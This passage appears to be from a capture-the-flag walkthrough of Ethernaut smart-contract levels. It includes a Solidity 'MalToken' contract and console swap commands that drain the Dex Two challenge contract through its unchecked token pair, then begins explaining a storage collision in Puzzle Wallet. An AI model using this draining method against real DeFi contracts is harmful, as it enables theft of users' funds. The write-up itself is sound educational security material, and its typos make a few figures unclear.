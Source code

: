 ## 23. DEX TWO
This level is very similar to the previous level except you need to use a custom ERC20 token contract to drain the funds of the DEX. The vulnerability here arises from swap method which does not check that the swap is necessarily between token1 and token2. We'll exploit this.
So first we deploy a a mallicious token contract on remix, 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MalToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("MalToken", "MLT") {
        _mint(msg.sender, initialSupply);
    }
}

```
Then we exchange MLT for token1 and token2 while draining DexTwo, to do this we send 100 MLT tokens to DexTwo using MLT transfer, so now price ratio in DexTwo btw MLT, token1 and token2 is 1:1:1, and awe aslo need to allow DexTwo to transact 300, where we have 100 for t1 and 200 for t32, so we just approve on our MLT token that our instant address uses 200 tokens, using the approve method and passing the instance address and 200 as parametres
The reason why this is possible is because the swap doesn't require that the from / to has to be token1 and token2 so you can use a 3rd token and drain each side sequentially.

```
We first get our addresses:
t1 = await contract.token1()
t2 = await contract.token2()
t3 = "< MLT token address e>"
a = await contract.token1()
b = await contract.token2()

await contract.swap(t3, t1, 100)
// 200 next cause with the updated balance and according to `get_swap_amount' we need 200 MLT 
await contract.swap(t3, t2, 200)

```
We can always verify the balance of both tokens by using the `balanceOf()` function `await contract.balanceOf(t2, instance).then(v => v.toString())`
Level solved!

## 24. Puzzle Wallet

Here we need to use and understand delegatecall, and with that we should be able to solve this. We know that while using upgradeable patterns the thing to pay attention to is storage collision, so essentially here what is happening is that the storage variable `pendingAdmin` is sharing the same storage slot with `owner` and the storage variable `admin` is sharing the same storage slot with `maxBalance`.
